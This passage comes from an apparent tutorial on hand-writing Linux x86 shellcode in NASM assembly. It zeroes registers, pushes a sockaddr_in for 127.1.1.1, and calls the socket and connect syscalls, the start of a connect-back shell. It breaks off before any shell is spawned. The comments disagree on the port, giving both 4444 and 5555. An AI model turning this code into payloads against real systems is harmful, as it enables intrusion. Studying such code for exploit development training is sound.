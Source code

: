 Before starting, a list of linux x86 systemcall can be found in the following files
```console
#cat /usr/include/asm/unistd_32.h
```
On older distributions the file is stored here:
```console
#cat /usr/include/i386-linux-gnu/asm/unistd_32.h
```
Now, let's get to work.
=

The assembly code
-

The first step is to initialize the stack and the registers:
```nasm
;set the stack pointer

mov ebp, esp

;initialize registers to zero

xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
```

The second step is to push the sockaddr_in struct in the stack:
```nasm
;struct sockaddr_in struct
;addr.sin_family = AF_INET;
;addr.sin_port = htons(4444);
;addr.sin_addr.s_addr = inet_addr("127.1.1.1");

push eax
push eax            ;padding for sin_zero sockaddr_in struct
push 0x0101017f     ;initialize ip address to 127.1.1.1 
push word 0xb315    ;port number initialize to 5555
push word 0x02      ;network family initialize for IPv4
```

We can now call the "socket" systemcall which will create an endpoint for communication:
```nasm
;s = socket(AF_INET, SOCK_STREAM, 0);

mov ax, 0x167       ;system call number for socket
mov bl, 0x02        ;IPv4 family adress
mov cl, 0x01        ;TCP socket
int 0x80            ;go for it
mov esi, eax        ;move return value (file descriptor) into esi
```

Then, we need to call the "connect" systemcall which will initiate a connection on a socket:
```
connect(s, (struct sockaddr *)&addr, sizeof(addr));

xor eax, eax
mov ax, 0x16a       ;connect system call number
mov ebx, esi        ;file descriptor
mov ecx, esp        ;point to the struct present in the stack
mov edi, ebp        ;used to get the size of the structure
sub edi, esp        ;used to get the size of the structure
mov edx, edi        ;get the size of the struct by using a simple soustraction
int 0x80            ;go for it
```
